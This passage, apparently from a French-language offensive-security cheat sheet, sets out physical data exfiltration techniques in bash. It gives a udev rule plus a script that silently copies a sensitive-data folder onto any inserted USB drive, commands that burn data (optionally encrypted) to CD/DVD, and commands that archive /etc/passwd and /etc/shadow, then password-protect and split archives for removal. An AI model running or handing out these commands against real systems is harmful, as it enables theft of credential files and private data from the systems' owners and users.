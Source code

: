 ## 💾 Exfiltration Physique

### USB et Supports Amovibles
```bash
# Détection supports USB
lsblk | grep usb
dmesg | grep -i usb

# Copie automatique sur insertion USB
cat > /etc/udev/rules.d/99-usb-exfil.rules << 'EOF'
ACTION=="add", SUBSYSTEMS=="usb", RUN+="/usr/local/bin/usb-exfil.sh %k"
EOF

# Script d'exfiltration USB
cat > /usr/local/bin/usb-exfil.sh << 'EOF'
#!/bin/bash
DEVICE="/dev/$1"
MOUNT_POINT="/mnt/usb-exfil"

mkdir -p $MOUNT_POINT
mount $DEVICE $MOUNT_POINT

if [ -d $MOUNT_POINT ]; then
    cp -r /home/sensitive_data $MOUNT_POINT/backup_$(date +%Y%m%d)
    sync
    umount $MOUNT_POINT
fi
EOF
chmod +x /usr/local/bin/usb-exfil.sh
```

### CD/DVD Burning
```bash
# Gravure de données sensibles
mkisofs -o /tmp/backup.iso /path/to/sensitive/data
cdrecord -v dev=/dev/sr0 /tmp/backup.iso

# Avec encryption
tar czf - /path/to/data | gpg -c --cipher-algo AES256 | dd of=/dev/sr0
```

## 🔄 Techniques de Preparation

### Compression et Archive
```bash
# Compression maximale
tar -czf backup.tar.gz /etc/passwd /etc/shadow /etc/group
7z a -mx9 -p"password123" backup.7z /home/user/Documents/

# Split en petits fichiers
split -b 1M backup.tar.gz backup_part_
```
